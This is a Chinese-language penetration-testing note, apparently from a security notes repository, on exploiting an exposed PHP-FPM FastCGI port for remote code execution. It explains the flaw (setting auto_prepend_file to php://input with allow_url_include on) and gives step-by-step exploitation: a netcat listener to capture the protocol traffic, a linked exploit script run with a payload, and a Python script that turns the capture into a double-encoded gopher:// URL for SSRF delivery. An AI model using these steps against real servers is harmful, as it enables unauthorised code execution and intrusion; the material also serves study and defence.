 




​    

## 利用案例

### Fastcgi

https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html?page=2#reply-list

https://www.freebuf.com/articles/web/263342.html

- FPM是什么

> 当我们的web服务器收到请求php文件的请求时，就让php-fpm把其解释(翻译)成html格式的文件(事实上php-fpm正是干这个事的)，然后我们的web服务器将翻译出来的.html文件发给浏览器。
>
> 而php-fpm能够进行翻译依靠的就是Fastcgi通信协议。

![1612761214_6020c87ec0101f355f51a.png!small](../../../images/1612761214_6020c87ec0101f355f51a.png!small)

- 漏洞成因

  > PHP-FPM默认监听9000端口，如果这个端口暴露在公网，则我们可以自己构造fastcgi协议，和fpm进行通信。
  >
  > fastcgi协议传输的数据其实就是PHP环境变量的一部分。
  >
  > 通过设置`auto_prepend_file = php://input`且`allow_url_include = On`，然后将我们需要执行的代码放在Body中，即可执行任意代码。

- 使用条件

  > PHP服务器开启fastcgi的端口9000
  >
  > 能够找到PHP服务器上的php文件

- 利用

  [exp](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)

  - 监听端口：`nc -lvp 9000>1.txt`

  - 使用exp：`python fpm.py -c "payload" -p 9000 127.0.0.1 php文件路径`

  - 将生成的1.txt进行双url编码：`python 1.py`

    ```python
    #1.py
    import urllib.parse
    f = open(r'1.txt','rb')
    s = f.read()
    s = urllib.parse.quote(s)
    s = urllib.parse.quote(s)
    print("gopher://127.0.0.1:9000/_"+s)
    ```

  - 利用得到的结果进行攻击
